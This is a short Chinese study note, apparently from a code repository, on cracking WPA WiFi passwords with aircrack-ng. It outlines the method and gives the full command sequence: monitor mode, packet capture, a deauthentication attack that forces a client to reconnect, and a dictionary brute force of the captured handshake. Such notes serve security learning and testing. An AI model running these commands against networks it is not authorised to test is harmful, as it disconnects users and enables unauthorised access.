

# aircrack-ng

## 安装

[aircrack-ng](http://www.aircrack-ng.org)

## 原理

1. 网卡监听
2. 扫描周围wifi
3. 选择监听目标wifi
4. 发起攻击，模拟wifi路由器单播，向目标用户发出断开连接请求
5. 目标用户断开连接并自动重连，获取4次握手包
6. 4次握手包含有加密密码
7. 暴力破解，穷举字典

## aircrack-ng使用

1. 查看本机无线网卡

`ifconfig`

2. 激活网卡到monitor模式

`sudo airmon-ng start wlan0`

3. 探测无线网络

`sudo airodump-ng wlan0`

4. 监听频道，抓取被选定路由器数据包

`sudo airodump-ng --ivs -w linuxcpp -c 6 wlan0mon`

捕获到的内容写入 linuxcpp-0x.ivs 文件

5. 发起deauth包，使客户端重连路由器

`sudo aireplay-ng -0 1 -a 路由器MAC -h 客户端MAC wlan0mon`

6. 穷举字典

`aircrack-ng -w dict linuxcpp-01.ivs`

- dict 字典文件
- linuxcpp-01.ivs 握手包数据文件

## 编写字典

按特点生成字典

## 参考

- wifi密码破解-Linux工具篇 虚竹 ITCAST